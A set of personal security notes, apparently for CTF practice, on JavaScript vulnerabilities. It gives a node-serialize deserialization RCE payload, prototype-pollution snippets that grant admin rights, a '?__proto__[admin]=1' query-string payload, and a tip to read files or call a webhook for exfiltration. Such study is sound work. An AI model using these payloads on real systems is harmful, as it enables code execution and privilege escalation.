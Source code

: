 # Javascript vulns 

http://jsnice.org/ Deobfuscate JavaScript

## node-serialize

This old npm package from a long long time ago is vulnerable to deserialisation attacks (as most languages are) because internally, it uses eval. We have to use JavaScript's Immediately Invoked Function Expression (IIFE) to execute code.

If you can read the JSON directly, just use `return require(fs).readFileSync()`, else feel free to call a webhook or something.

Links:
- https://www.npmjs.com/package/node-serialize
- https://github.com/luin/serialize
- https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/

```js
var serialize = require('node-serialize');
var x = '{"rce":"_$$ND_FUNC$$_function (){console.log(\'exploited\')}()"}'
var y = {"rce":"_$$ND_FUNC$$_function (){console.log(\'exploited\')}()"}
// both work, since for some reason unserialize accepts any
serialize.unserialize(x);
serialize.unserialize(y);
```

## Prototype pollution

Every object in Javascript inherits from the base Object prototype. 

By overwriting/adding an attribute to `__proto__`, all other objects will also magically gain this attribute. 

```js
> a={}; b={};
< undefined
> a.__proto__.key = "value"
< 'value'
> b.key
< 'value'
```

Since `b` does not have a key of `key`, it looks up the prototype chain and finds it in its prototype. If `b` had a key of `key` set, it would have returned that defined value instead.

### Example

```js
// initial scenario
users = {
  john: {
    userid : "John",
    pass : "password",
    personal_statement : {},
    permission : 'user'
  }
}
// exploit
users['john'].personal_statement.__proto__.permission = 'admin'
// users is also of the same prototype, so it inherits the permission attribute
// now we have a arbitary admin user
users['__proto__'].permission == 'admin'
```

```js
var ihaveaccesstothis = 'hello';

var attackme = {
	'admin': false,
};

console.log(attackme.admin); // false
console.log(attackme.__proto__); // Object
console.log(ihaveaccesstothis.__proto__); // String
console.log(ihaveaccesstothis.__proto__.__proto__); // Object !

ihaveaccesstothis.__proto__.__proto__.admin = True;

console.log(attackme.admin) // true
```

Caveat: If the object has nested inheritances (eg. I want to overwrite String.toLower()), overwriting the base Object prototype won't work. We need access to the String prototype.

### In query params

Prototype pollution can also occur client-side in query params. If the query string parser returns keys directly and not as strings, we can overwrite the object's attributes.

`?__proto__[admin]=1`

It's slightly weaker as we can only pass in strings.

### RCE

If we can pass in functions, simply target an attribute function that is being called (eg. String.valueOf() or smtg else) and overwrite it to something else.

### Other stuff

Every attribute of window is a global variable (and vice versa!) This means that asdf == window.asdf, window.name == name, window.location == location etc. If we are able to set these variables, we can possibly control these values to arbitrary stuff, enabling XSS etc.
